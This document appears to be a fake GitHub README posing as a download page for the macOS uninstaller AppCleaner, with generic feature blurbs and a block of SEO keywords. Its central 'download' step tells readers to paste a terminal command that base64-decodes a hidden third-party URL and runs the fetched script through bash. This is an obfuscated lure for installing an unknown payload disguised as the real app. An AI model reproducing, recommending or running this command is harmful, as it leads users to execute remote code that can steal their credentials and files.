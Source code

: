 # AppCleaner Mac Download - Complete Application Uninstaller  

![AppCleaner Screenshot](https://freemacsoft.net/images/appcleaner_window.png)  

---  

### 🔽 Download AppCleaner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is AppCleaner for Mac?  

AppCleaner is an essential macOS utility that provides thorough removal of applications and all their associated files. Unlike the standard drag-to-trash method that often leaves behind numerous support files, AppCleaner performs deep system scans to locate and remove every trace of uninstalled software.  

This lightweight yet powerful tool helps maintain optimal system performance by preventing the accumulation of orphaned files that can consume valuable disk space over time. AppCleaner features a simple drag-and-drop interface that makes uninstalling applications effortless - just drag any app onto the AppCleaner window and it will automatically detect all related files in Library folders, Caches, and Preferences.  

Advanced users will appreciate the Smart Delete feature that allows selective removal of components, while the simple interface makes it accessible for beginners. AppCleaner is particularly useful when testing multiple applications, preparing systems for resale, or simply maintaining a clean and organized Mac.  

The application runs natively on both Intel and Apple Silicon Macs, supports dark mode, and integrates seamlessly with macOS. Regular updates ensure compatibility with the latest versions of MacOS, making AppCleaner a reliable long-term solution for application management.  

![AppCleaner Interface](https://freemacsoft.net/images/appcleaner_smartdelete.png)  

---  

## Key Features & Benefits  

- 🗑️ Complete application removal  
- 🖱️ Intuitive drag-and-drop interface  
- 🔍 Smart scanning for associated files  
- 📂 Preserves system integrity  
- 🚀 Lightweight and fast operation  

Maintain a clean and efficient Mac system with AppCleaner's thorough uninstallation capabilities.  

---  

## 🔍 Keywords  

AppCleaner for Mac, AppCleaner Mac Download, AppCleaner for Mac Download, AppCleaner Mac, AppCleaner Download Mac, AppCleaner Download for Mac, AppCleaner full version, Mac Download AppCleaner, Download Mac AppCleaner, Download AppCleaner Mac, Download AppCleaner for Mac
